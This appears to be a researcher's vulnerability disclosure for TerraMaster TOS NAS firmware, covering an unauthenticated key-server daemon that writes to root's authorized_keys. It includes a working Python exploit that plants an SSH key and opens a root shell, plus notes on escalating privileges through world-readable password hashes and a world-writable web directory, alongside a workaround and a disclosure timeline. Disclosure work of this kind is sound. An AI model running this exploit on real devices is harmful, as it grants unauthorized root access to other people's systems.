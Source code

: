 # TerraMaster TOS rsync key-server remote root

In releases of TOS before 4.2.09[2], there exists a vulnerable daemon called
`key-server`, that is started when rsync is enabled, which writes arbitrary data
to `/root/.ssh/authorized_keys` without authentication.

## Bug

TOS include a binary called `key-server`, which has no documentation. There is
also another binary called `key-client` for talking to it.

It runs a network service on TCP 1888 and is started by the init script in
`/etc/init.d/rsync_service`:

```bash
 24 service_prepare(){                                                         
 25     [ ! -d $basedir ] && mkdir -p $basedir                                 
 26     [ ! -d $lockdir ] && mkdir -p $lockdir                                 
 27     chmod 600 ${passfile}                                                  
 28     /sbin/svrcfg-all -c rsync                                              
>29     # ssh 免密传输...                                                      
>30     key-server >/dev/null &                                                
 31     rm -fr /var/run/rsyncd.pid                                             
 32 }
```

The comment in Chinese translates as "ssh confidential transmission...".

It included the following usage string:

```
Usage:rsynctool-server [option]
								-d  daemon
								-h help message
```

With no more details.

When analysed in Ghidra, I saw that it reads a 32 bit int containing 1, along
with an ssh key, and writes the ssh key to `/root/.ssh/authorized_keys`

Root can login, as `PermitRootLogin yes` is in `/etc/ssh/sshd_config`.

## Checking Devices

The easiest way to check is to portscan your TOS device and see if ports 22 and
1888 are open (e.g `nmap -p 22,1888 HOST`). If so, the exploit should work.

## Workaround

As Terramaster has only released the patch for x86, owners of ARM devices can
work around the flaw by removing `key-server >/dev/null &` from
`/etc/init.d/rsync_service` and restarting the device.

The official patch just deleted the `key-server` and `key-client` binaries and
didn't edit this file.

## Exploit

```python3
# Terra-Master rsync key-server "exploit"
#
# enable rsync on your nas, run this, get a root shell.
#
# My lawyer sayz:
#  "This is provided only for the use in the *authorized* testing of systems.
#   no warranty is provided"
#
# Released under the terms of the MIT license https://mit-license.org/
#
# B Horn - 2021
#
# GH: @bahorn
# 
# usage:
#   python terramaster_key_server.py <HOST> ~/.ssh/id_rsa.pub

import socket
import struct
import sys
import os

TCP_IP = sys.argv[1]
TCP_PORT = 1888  # key-server port.

# Read in the SSH key passed
key = open(sys.argv[2]).read()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
# This refers to the "command". The code just checks if it's set to one.
s.send(struct.pack('I', 1))
# Send over our SSH key and it'll be added to /root/.ssh/authorized_keys
s.send(key)
# The server responds with it's length.
print(s.recv(1024))

# Login
os.system('ssh root@{}'.format(TCP_IP))
```

## Other issues

These are less of a concern as non-admin users no longer will have ssh access as
of the 4.2.10 beta:

* `/etc/base/nasdb` is world readable, allowing any user with shell access to read
the `user_table`, and attempt to crack the password hashes. As the password for
admin is the same for the root user, this can be used to escalate privileges.

(LFDs in the web app have also been reported in the past (See CVE-2020-28187
[1]), and as php scripts are interpreted as root you can just read `/etc/shadow`
, but if they ever fix that this is another option to exploit them)

* http://nas:8181/databack/ is symlinked `/tmp/databack`, which is world
writable. As the php scripts run as root, a unprivileged user can drop a php
script in  the directory and execute it by going to
http://nas:8181/databack/example.php, running their script with root permissions.

(These were validated last year, changes may have been made that stop these,
which wasn't immediately visible from reviewing firmware images)

## Other Notes

Do check out ihteams work on terramaster [1], they seemed to have a far better
experience with them than I did. I suspect what they did better than me was
getting a CVE authority involved.

## Recommendations for Terramaster

* Please establish a proper security contact on your core development team.
* When a researcher reports a flaw, give a timeline for the patch to be released.
* Security updates must be released across all platforms simultaneously. It's
generally simple for researchers to rediscover flaws knowing what has changed.

I shouldn't need to follow up so much to get an issue fixed.

## Timeline

* 2020-05-29 - Reached out to support AT terra-master DOT com to get a security
contact.
* 2020-05-30 - Was told to just forward details onto the support email.
* 2020-05-30 - Provided my research.
* 2020-05-31 - Received confirmation they got my information.
* 2020-06-02 - Was told they forwarded my information onto the Tech department.
* 2021-01-11 - Attempted to reestablish contact, as no details have been
provided since then.
* 2021-01-15 - After no response, I informed them of my intention of publicly
disclosing my research on Feb 1st.
* 2021-01-19 - Confirmation that it will be included in the next release of TOS (4.2.9).
* 2021-02-03 - TOS4.2.9 is released for x86 products, not ARM. [2]
* 2021-02-21 - Follow up regarding arm release, express some concerns on the quality of the patch.
* 2021-02-23 - support confirms they'll chase it.
* 2021-03-20 - Following up again, as lack of updates. State my intentions to
  disclosure publically on the 28th if a patch isn't avaliable for ARM.
* 2021-03-28 - No follow up, releasing notes.

# References

* [1] https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
* [2] https://forum.terra-master.com/en/viewtopic.php?f=28&t=1536
